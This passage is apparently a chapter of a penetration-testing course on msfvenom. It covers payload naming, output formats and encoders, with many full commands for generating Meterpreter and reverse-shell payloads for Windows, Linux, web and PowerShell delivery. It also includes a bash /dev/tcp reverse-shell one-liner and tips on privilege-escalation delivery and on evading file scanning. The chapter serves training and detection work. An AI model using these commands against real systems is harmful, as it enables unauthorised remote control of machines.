








**Level:** Expert · **Track:** Penetration Testing · **Read time:** 250 min

This is Chapter 5 of the Exploitation notebook and the third part of the four-part Metasploit arc. Chapter 3 took the framework apart to show its architecture, module taxonomy and the `msfconsole` workflow; Chapter 4 pulled the trigger — firing an exploit module, understanding the payload system, and catching a Meterpreter session. Both of those chapters generated their payloads *implicitly*, as a side effect of running an exploit inside the console. This chapter is about generating payloads *explicitly and on their own*, as standalone files you can drop anywhere, with the tool built for exactly that job: **msfvenom**.

You reach for msfvenom the moment the delivery mechanism is no longer a Metasploit exploit module. When you have a file-upload vulnerability and need a `.php` shell, an unquoted service path that will run a `.exe`, a writable web root that will execute a `.jsp`, a macro that will drop a PowerShell one-liner, or a memory-corruption bug where you need raw shellcode with no bad bytes — the exploit is yours, but the payload still has to come from somewhere. msfvenom is that somewhere. It is the standalone payload generator and encoder of the Metasploit Framework, and it speaks dozens of output formats.

Everything this chapter produces is a real payload that opens a real connection back to you and hands over control of the machine that runs it. All of it assumes an explicit, written, scoped engagement or hardware you own. Generate payloads only for VMs on your own hypervisor, point every callback at a listener you control, and read what each option does before you run it. A generated reverse shell aimed at a system you are not authorised to touch is a crime, not a demonstration.

---

## Why This Matters

Framework exploit modules are convenient, but they cover a tiny fraction of the ways code actually lands on a target. Real footholds come from file uploads, deserialization sinks, command injection, misconfigured services, phishing attachments, malicious macros, and your own memory-corruption exploits. In every one of those cases the *delivery* is bespoke and the *payload* is generic — and a generic, reliable, well-understood payload is precisely what msfvenom gives you.

Understanding msfvenom deeply pays off in four directions at once. **For exploit developers and CTF players**, it is the fastest way to get correct, bad-char-free shellcode in the exact format your `pwn` script or buffer overflow needs. **For pentesters and red teamers**, it is the payload factory feeding every non-Metasploit delivery path in the engagement. **For bug-bounty hunters**, a msfvenom web shell is often the cleanest proof that a file-upload or RCE finding is genuinely exploitable (used only where the program's rules allow it). And **for blue teams and detection engineers**, msfvenom output is one of the most common things you will ever have to detect — its default templates, encoders and payload stubs have signatures that show up in EDR alerts, YARA rules and memory forensics every day. You cannot detect what you do not understand at the byte level.

This chapter teaches msfvenom from the first `-p` flag to writing your own bad-char-safe shellcode, and it does so honestly about what encoders can and cannot do against modern defences.

---

## Part 1: Where msfvenom Fits — From msfpayload + msfencode to One Tool

Before msfvenom existed there were two separate tools: **`msfpayload`**, which generated a payload in a chosen output format, and **`msfencode`**, which took raw payload bytes and ran them through an encoder to reshape them (for example to remove bad characters). The classic idiom was to pipe one into the other:

```bash
# The old, deprecated way (do not use — shown for history)
msfpayload windows/meterpreter/reverse_tcp LHOST=10.10.14.7 LPORT=443 R \
  | msfencode -e x86/shikata_ga_nai -c 3 -t exe > shell.exe
```

That pipeline was clumsy: two tools, two option syntaxes, and a `R` (raw) hand-off in the middle that was easy to get wrong. In 2015 both tools were deprecated and replaced by a single binary, **`msfvenom`**, that does payload generation *and* encoding *and* output formatting in one command. The name is a portmanteau of the two tools it replaced. Everything below uses `msfvenom` exclusively; if you find a tutorial using `msfpayload`/`msfencode`, it predates 2015 and the option names have changed.



The mental model to hold onto: **msfvenom is a factory, not a listener.** It builds an artifact and exits. Something you deliver has to *run* that artifact on the target, and a separate listener — the `exploit/multi/handler` you met in Chapter 4 — has to be waiting to *catch* the connection it makes. Generation, delivery and catching are three distinct steps; msfvenom owns only the first. A huge fraction of "my shell didn't work" problems are actually delivery or handler-mismatch problems, and keeping the three steps separate in your head is how you debug them.

msfvenom ships with the Metasploit Framework, so if you followed the lab build in the methodology track you already have it. Confirm and check the version:

```bash
$ which msfvenom
/usr/bin/msfvenom

$ msfvenom --version
Framework Version: 6.4.34-dev
```

If it is missing, install the framework metapackage on Kali (`sudo apt install metasploit-framework`) or use the official omnibus installer. The tool needs no database and no `msfconsole` session — it is entirely standalone, which is exactly why it is so useful outside the console.

---

## Part 2: Anatomy of a msfvenom Command, Flag by Flag

Every msfvenom command is the same shape: pick a payload, give the payload its options, choose a platform/architecture if it can't be inferred, choose an output format, optionally encode, and write the result somewhere. Here is a complete, realistic command with every part labelled:

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp \
         LHOST=10.10.14.7 LPORT=443 \
         -f exe \
         -a x64 --platform windows \
         -e x64/xor_dynamic -i 3 \
         -b '\x00\x0a\x0d' \
         -o /tmp/update.exe
```

Reading it left to right:

| Flag | Long form | Meaning |
|------|-----------|---------|
| `-p` | `--payload` | The payload module to generate (`windows/x64/meterpreter/reverse_tcp`). `-p -` reads a custom payload from stdin. |
| `LHOST`/`LPORT` | — | Payload *datastore options*, given as `KEY=VALUE` after `-p`. These are the callback address and port baked into the payload. |
| `-f` | `--format` | Output format (`exe`, `elf`, `php`, `raw`, `c`, `psh`, ...). `-f -` writes to stdout. |
| `-a` | `--arch` | CPU architecture (`x86`, `x64`, `aarch64`, `armle`, ...). Often inferred from the payload name. |
| `--platform` | — | Target OS (`windows`, `linux`, `osx`, `android`, ...). Also often inferred. |
| `-e` | `--encoder` | Encoder module to run the payload through. Optional. |
| `-i` | `--iterations` | How many times to run the encoder (encode the already-encoded output again). |
| `-b` | `--bad-chars` | Bytes the payload must NOT contain, as an escaped string. The encoder/generator avoids them. |
| `-o` | `--out` | Write output to this file. Without it, output goes to stdout. |

Other flags you will meet constantly:

| Flag | Long form | Meaning |
|------|-----------|---------|
| `-l` | `--list` | List items of a type: `-l payloads`, `-l encoders`, `-l formats`, `-l all`. |
| `-n` | `--nopsled` | Prepend N NOP bytes (a NOP sled) to the payload. |
| `-s` | `--space` | Maximum size of the payload in bytes (the generator errors if it can't fit). |
| `--encoder-space` | — | Maximum size for the *encoded* payload, separate from `-s`. |
| `-x` | `--template` | Use an existing executable as a template to embed the payload into. |
| `-k` | `--keep` | With `-x`, keep the template's original functionality running (inject into a new thread). |
| `-c` | `--add-code` | Add a shellcode file to the payload (chain raw shellcode blobs). |
| `--smallest` | — | Automatically pick the encoder/options that produce the smallest payload. |
| `-v` | `--var-name` | Name of the variable in source-format outputs (`c`, `python`, etc.). |
| `--pad-nops` | — | Treat the NOP sled length as total size including the payload. |

There is no required order for these flags, but the conventional reading order — payload, options, format, arch/platform, encoding, bad chars, output — matches how you *think* about the problem, so write them that way for readability.

**A note on `LHOST`.** This is the single most-fumbled option in the whole tool. `LHOST` is the address the *target* will connect back to, so it must be an address the target can actually reach and that your listener is actually bound to. On a HackTheBox/THM VPN it is your `tun0` address (`ip addr show tun0`), not `127.0.0.1` and not your LAN IP. On a local lab it is your VM's bridged/host-only address. Bake the wrong `LHOST` in and the payload runs perfectly and then tries to phone home to an address that goes nowhere — a silent failure that looks exactly like "the payload didn't execute."

---

## Part 3: Listing and Choosing Payloads

msfvenom exposes the framework's entire payload catalogue — well over 1,000 modules. You will never memorise them, so learn to *filter* them. The `-l payloads` flag dumps the list, and you grep it:

```bash
# All Windows x64 Meterpreter payloads
$ msfvenom -l payloads 2>/dev/null | grep 'windows/x64/meterpreter'
    windows/x64/meterpreter/bind_ipv6_tcp        ...
    windows/x64/meterpreter/bind_named_pipe      ...
    windows/x64/meterpreter/bind_tcp             ...
    windows/x64/meterpreter/reverse_http         ...
    windows/x64/meterpreter/reverse_https        ...
    windows/x64/meterpreter/reverse_tcp          ...
    windows/x64/meterpreter/reverse_winhttp      ...
```

To understand a payload's options *before* you generate it, ask for its options with `--list-options` (or the shorthand shown in the console, `--payload-options`):

```bash
$ msfvenom -p windows/x64/meterpreter/reverse_tcp --list-options
Options for payload/windows/x64/meterpreter/reverse_tcp:
Name: Windows Meterpreter (Reflective Injection x64), Windows x64 Reverse TCP Stager
...
Basic options:
Name      Current Setting  Required  Description
----      ---------------  --------  -----------
EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
LHOST                      yes       The listen address (an interface may be specified)
LPORT     4444             yes       The listen port
...
```

### Reading a payload name

Payload module names are a path with meaning in every segment:

```
windows / x64 / meterpreter / reverse_tcp
   |       |        |             |
platform  arch   payload type   transport + direction
```

- **platform** — `windows`, `linux`, `osx`, `android`, `python`, `php`, `java`, `cmd`, `nodejs`, `multi`.
- **arch** — for native platforms, `x86` (implicit when absent on old Windows payloads) or `x64`. Scripting platforms have no arch segment.
- **payload type** — `shell` (a plain OS command shell), `meterpreter` (the full in-memory agent from Chapter 4), `powershell`, `exec` (run one command), `messagebox` (a harmless test payload), `vncinject`, etc.
- **transport + direction** — `reverse_tcp`, `bind_tcp`, `reverse_http`, `reverse_https`, `reverse_winhttp`, `bind_named_pipe`, `find_tag`.

### Staged vs stageless, in the name

Chapter 4 explained the mechanics of staged vs stageless payloads; msfvenom encodes the distinction in punctuation:

- **Staged**: slashes all the way down — `windows/x64/meterpreter/reverse_tcp`. A tiny *stager* is what msfvenom writes into your file; when it runs it phones home and the handler sends the big *stage* (Meterpreter itself) over the wire.
- **Stageless**: an underscore fuses the type and transport — `windows/x64/meterpreter_reverse_tcp`. The entire agent is baked into the file. Bigger artifact, but self-contained: it needs nothing sent back, which matters when the transport is fragile or one-shot.



**Rule of thumb:** default to staged for size-constrained delivery (exploits with tiny buffers, restrictive uploads), and switch to stageless when the delivery is one-shot, the network is flaky, or a proxy/IPS is mangling the staged transfer. The handler must match the choice exactly — a `multi/handler` set to a staged payload will not catch a stageless one, and vice versa. This mismatch is the second most common "no session" cause after a wrong `LHOST`.

---

## Part 4: Output Formats — The Whole Point of msfvenom

The reason msfvenom exists as a separate tool is the **`-f`/`--format`** engine. The *same* payload can be emitted as an executable, a shared library, a web shell, a script, or raw bytes, and choosing the right container for your delivery path is most of the skill. List every format the installed version supports:

```bash
$ msfvenom --list formats
Framework Executable Formats [--format <value>]
    asp, aspx, aspx-exe, axis2, dll, elf, elf-so, exe, exe-only,
    exe-service, exe-small, hta-psh, jar, jsp, loop-vbs, macho, msi,
    msi-nouac, osx-app, psh, psh-cmd, psh-net, psh-reflection, python-reflection,
    vba, vba-exe, vba-psh, war

Framework Transform Formats [--format <value>]
    base32, base64, bash, c, csharp, dw, dword, hex, java, js_be, js_le,
    nim, num, perl, pl, powershell, ps1, py, python, raw, rb, ruby, rust,
    vbapplication, vbscript
```

There are two families and the split matters:

- **Executable formats** wrap the payload in a runnable container the OS understands — a PE `exe`, an ELF binary, a `.war` for Tomcat, a `.jsp` for a Java web app. You *deliver and run* these directly.
- **Transform formats** emit the payload's raw bytes re-encoded as text in some representation — a C array, a Python `bytes` literal, base64, a PowerShell byte array, hex. You *paste* these into your own exploit, loader, or command. `raw` is the special one: the literal payload bytes with no container and no re-encoding, which you redirect to a file or pipe into another tool.



A quick tour of the most-used formats and when each earns its place:

| Format | Container | Primary use |
|--------|-----------|-------------|
| `exe` | Windows PE (GUI subsystem) | Drop-and-run on Windows; the default Windows binary. |
| `exe-service` | Windows PE service | Runs as a Windows service (survives `sc start`, used for service-path abuse & persistence). |
| `exe-only` | Bare PE, no template | Smaller `exe` without the default embedded template. |
| `dll` | Windows DLL | DLL hijacking / sideloading; loaded by `rundll32` or a vulnerable app. |
| `msi` | Windows Installer | AlwaysInstallElevated abuse, `msiexec /quiet /i`. |
| `elf` | Linux ELF binary | Drop-and-run on Linux. |
| `elf-so` | Linux shared object | `LD_PRELOAD` / library-load abuse. |
| `macho` | macOS Mach-O | Drop-and-run on macOS. |
| `php` | PHP source | File-upload / LFI-to-RCE on PHP apps. |
| `jsp` / `war` | Java | Tomcat/JSP app servers. |
| `asp` / `aspx` | Classic/.NET | IIS web apps. |
| `psh` / `ps1` | PowerShell | Macro payloads, `-enc` one-liners, fileless delivery. |
| `python` / `py` | Python source/bytes | Cross-platform script hosts, Python sandboxes. |
| `raw` | none | Shellcode for exploit dev, or piping into another tool. |
| `c` / `csharp` / `rust` / `nim` | source array | Embedding shellcode in your own loader. |

The rest of this chapter walks the important families in detail, because the right container is chosen from the *target*, never from habit.

---

## Part 5: Platforms, Architectures, and Getting Them Right

Two options — `--platform` and `-a`/`--arch` — decide what machine the payload is built for. Most of the time msfvenom infers both from the payload name (`windows/x64/...` obviously implies `--platform windows -a x64`), but there are three situations where you must set them by hand and a mismatch produces a payload that simply crashes on run:

1. **Architecture mismatch.** A 32-bit (`x86`) payload run in a 64-bit process context, or vice versa, often fails or behaves erratically. Modern Windows is x64; unless you have a specific reason (an x86 host, or injecting into a known 32-bit process) prefer `windows/x64/...`. If you are generating shellcode to inject into a *specific* process, match that process's bitness, not the OS's.
2. **Transform formats hide the arch.** When you emit `-f c` or `-f raw`, the container no longer carries architecture metadata, so you are responsible for making sure the shellcode's arch matches the process it will run in. Set `-a` explicitly and comment it in your exploit.
3. **Custom payloads via `-p -`.** When you feed msfvenom your own bytes from stdin (for encoding or format conversion), there is no name to infer from, so `--platform` and `-a` are mandatory.

List the architectures and platforms the tool knows:

```bash
$ msfvenom --list archs
    aarch64, armbe, armle, cbea, cbea64, cmd, dalvik, firefox, java,
    mipsbe, mipsle, php, ppc, ppc64, ppc64le, python, r, ruby, sparc,
    tty, x64, x86, x86_64, zarch

$ msfvenom --list platforms
    aix, android, apple_ios, bsd, cisco, firefox, freebsd, hardware,
    java, javascript, juniper, linux, mainframe, multi, netware, nodejs,
    openbsd, osx, php, python, r, ruby, solaris, unix, windows
```

The `multi` platform deserves a mention: payloads like `cmd/unix/reverse_bash` or `multi/meterpreter/reverse_tcp` are designed to work across several OSes because they rely on a runtime (bash, Python, Java) rather than native code. They trade reliability of native execution for portability — invaluable when you know the target has an interpreter but you are not sure of the exact OS build.

---

## Part 6: Windows Payloads in Depth

Windows is where most msfvenom output ends up, so it is worth knowing the container families precisely.

### 6.1 The plain executable (`exe`)

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp \
         LHOST=10.10.14.7 LPORT=443 \
         -f exe -o loot.exe
```

`-f exe` produces a standard PE. By default msfvenom embeds the payload into a small built-in *template* executable (a stock PE it ships with). That template is heavily signatured — every AV vendor has hashed it — which is one reason a default `exe` lights up Defender instantly (more on this in Parts 10 and 15). `exe-only` drops the template wrapper for a leaner binary; `exe-small` optimises for the smallest possible PE.

### 6.2 Service executables (`exe-service`)

A normal `exe` is a GUI/console program; the Windows Service Control Manager expects a binary that implements the service control handshake and reports "running" within a timeout. If you drop a plain `exe` where a service binary is expected, the SCM starts it, waits, times out, and kills it — your shell dies in seconds. `exe-service` builds a PE that satisfies the SCM handshake so the payload survives:

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp \
         LHOST=10.10.14.7 LPORT=443 \
         -f exe-service -o service.exe
```

**Red team / pentest usage:** this is the format for **unquoted service path** and **weak service permission** privilege escalation — the two classic Windows privesc primitives where you replace or plant a service binary that the system will start as `SYSTEM`. Using a plain `exe` there is the single most common reason those escalations "don't work."

### 6.3 DLLs (`dll`)

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp \
         LHOST=10.10.14.7 LPORT=443 \
         -f dll -o hijack.dll
```

A DLL is not run directly; something must *load* it. That "something" is a `rundll32.exe hijack.dll,EntryPoint`, or — far more interestingly — a vulnerable application that searches for a DLL by name in a directory you can write to (**DLL search-order hijacking / sideloading**). Chapter references aside, the point is that `dll` is a *library* container: it needs a host process, and the payload runs inside that host's identity and integrity level.

### 6.4 MSI installers (`msi`, `msi-nouac`)

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp \
         LHOST=10.10.14.7 LPORT=443 \
         -f msi -o setup.msi
# on target:
#   msiexec /quiet /qn /i setup.msi
```

The `msi` container is the payload for the **AlwaysInstallElevated** misconfiguration: when both the machine and user policy keys are set, `msiexec` installs packages as `SYSTEM` regardless of the invoking user, so an MSI payload is an instant privesc. `msi-nouac` variants avoid the UAC prompt path.

Here is the Windows format decision as a tree:



---

## Part 7: Linux, macOS and Cross-Platform Payloads

### 7.1 Linux ELF (`elf`, `elf-so`)

```bash
msfvenom -p linux/x64/meterpreter/reverse_tcp \
         LHOST=10.10.14.7 LPORT=443 \
         -f elf -o cleanup

chmod +x cleanup      # ELF must be executable to run
./cleanup
```

`-f elf` produces a standard Linux executable. Remember the target still has to mark it executable (`chmod +x`) and actually run it. `elf-so` builds a shared object for `LD_PRELOAD` abuse or loading via a vulnerable app — the Linux analogue of the DLL story.

**Pentester landing on a Linux host:** a common, quieter alternative to dropping an ELF is a pure-command payload like `cmd/unix/reverse_bash`, which is just a bash one-liner and touches no disk:

```bash
msfvenom -p cmd/unix/reverse_bash LHOST=10.10.14.7 LPORT=443 -f raw
# -> bash -c '0<&196;exec 196<>/dev/tcp/10.10.14.7/443;sh <&196 >&196 2>&196'
```

### 7.2 macOS Mach-O (`macho`, `osx-app`)

```bash
msfvenom -p osx/x64/meterpreter/reverse_tcp \
         LHOST=10.10.14.7 LPORT=443 \
         -f macho -o updater
```

`macho` is a raw Mach-O binary; `osx-app` wraps it in a `.app` bundle structure. Modern macOS Gatekeeper and codesigning make unsigned Mach-O delivery hard in practice, which is worth knowing before you plan an engagement around it.

### 7.3 Android (`apk`)

```bash
msfvenom -p android/meterpreter/reverse_tcp \
         LHOST=10.10.14.7 LPORT=443 \
         -o payload.apk
```

Android payloads produce an installable APK (msfvenom infers `-f apk`). Newer Android versions require the APK to be signed to install; you sign it with `apksigner`/`jarsigner` afterwards. This is a classic mobile-pentest lab exercise.

---

## Part 8: Web and Scripting Payloads

Web application footholds are where msfvenom earns its keep in bug bounty and web pentests, because a file-upload or LFI-to-RCE finding is best proven with a payload in the app's own language.

### 8.1 PHP (`php`, `raw`)

```bash
msfvenom -p php/meterpreter/reverse_tcp \
         LHOST=10.10.14.7 LPORT=443 \
         -f raw -o shell.php
```

The generated PHP begins with a commented-out `/*<?php ... */` block and needs a leading `<?php` tag to execute in many contexts. A frequent gotcha: the raw output sometimes has the opening tag commented; open the file and make sure it starts with an executable `<?php`. A minimal cleanup:

```bash
# Ensure the file starts with an executable PHP open tag
sed -i '1s/^/<?php /' shell.php   # only if the generated tag is commented
```

Deliver it through the upload/LFI, browse to it, and catch the callback with a `php/meterpreter/reverse_tcp` handler.

### 8.2 JSP and WAR (`jsp`, `war`)

```bash
# A single JSP to drop into a writable web root
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.7 LPORT=443 -f raw -o shell.jsp

# A deployable WAR for a Tomcat manager with weak creds
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.7 LPORT=443 -f war -o app.war
```

`war` is the format for the endlessly-recurring **Tomcat Manager default/weak credentials** finding — you deploy the WAR through the manager app and browse to its path to trigger the shell. HackTheBox and THM have a dozen boxes built on exactly this.

### 8.3 ASP / ASPX (`asp`, `aspx`, `aspx-exe`)

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp \
         LHOST=10.10.14.7 LPORT=443 \
         -f aspx -o shell.aspx
```

For classic IIS (`asp`) or .NET (`aspx`) apps with a writable, executable web directory. `aspx-exe` embeds a full exe-style payload inside the ASPX wrapper.

### 8.4 PowerShell (`psh`, `psh-cmd`, `ps1`)

PowerShell payloads are the backbone of macro and "living-off-the-land" delivery on Windows because they can run without writing a PE to disk:

```bash
# A ready-to-run PowerShell command (one line, base64-encoded stager)
msfvenom -p windows/x64/meterpreter/reverse_tcp \
         LHOST=10.10.14.7 LPORT=443 \
         -f psh-cmd -o run.txt
```

`psh-cmd` produces a `powershell.exe -nop -w hidden -enc <base64>` style command you can drop into a macro, a scheduled task, or a phishing lure. Because it is text and never lands a binary on disk, it side-steps some file-scanning controls — but AMSI, script-block logging and EDR user-mode hooks see it clearly, which Part 15 covers.

### 8.5 Python and other interpreters (`python`, `py`)

```bash
msfvenom -p python/meterpreter/reverse_tcp \
         LHOST=10.10.14.7 LPORT=443 \
         -f raw -o shell.py
```

Useful against Python sandboxes, `eval`/`pickle` deserialization sinks, and any host you know runs Python. `perl`, `ruby`, `bash`, `nodejs` and `java` equivalents exist for the same reason.

---

## Part 9: Raw Shellcode for Exploit Development

For CTF pwn and real exploit development, you do not want a container at all — you want the naked bytes to place into a buffer you control. That is the **transform** family: `raw`, `c`, `python`, `csharp`, `hex`, `rust`, `nim`, `powershell`.

```bash
# Raw bytes straight to a file (for pipes / your own loader)
msfvenom -p windows/x64/exec CMD=calc.exe -f raw -o sc.bin

# The same shellcode as a C array to paste into an exploit
msfvenom -p windows/x64/exec CMD=calc.exe -f c
```

The `-f c` output looks like:

```c
unsigned char buf[] =
"\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41\x50"
"\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52"
/* ... truncated ... */
"\x63\x2e\x65\x78\x65\x00";
/* buf length is 276 bytes */
```

Control the variable name and formatting for your language of choice:

```bash
# Python bytes literal named 'sc'
msfvenom -p linux/x64/exec CMD=/bin/sh -f python -v sc

# .NET / C# byte array
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.7 LPORT=443 -f csharp
```

**CTF angle:** when you are exploiting a stack overflow and you know your buffer size, generate with `-s`/`--space` so msfvenom refuses to hand you shellcode that won't fit, and with `-b` to strip the bad bytes your input path can't carry (Part 11). `windows/x64/exec CMD=calc.exe` (or `linux/x64/exec CMD=/bin/sh`) is the canonical "did my shellcode run?" test payload — pop calc / a shell locally before you point anything at a real target.

---

## Part 10: Encoders — What They Really Do (and Don't)

Encoders are the single most *misunderstood* part of msfvenom, so this section is deliberate about the truth. An **encoder** takes the payload's raw bytes and rewrites them into a different byte sequence that decodes back to the original at runtime. It works by prepending a tiny **decoder stub**: when the payload runs, the stub executes first, reverses the transformation in memory, and jumps to the now-original shellcode.



List the encoders and their quality ranking:

```bash
$ msfvenom --list encoders
Framework Encoders [--encoder <value>]
    Name                    Rank       Description
    ----                    ----       -----------
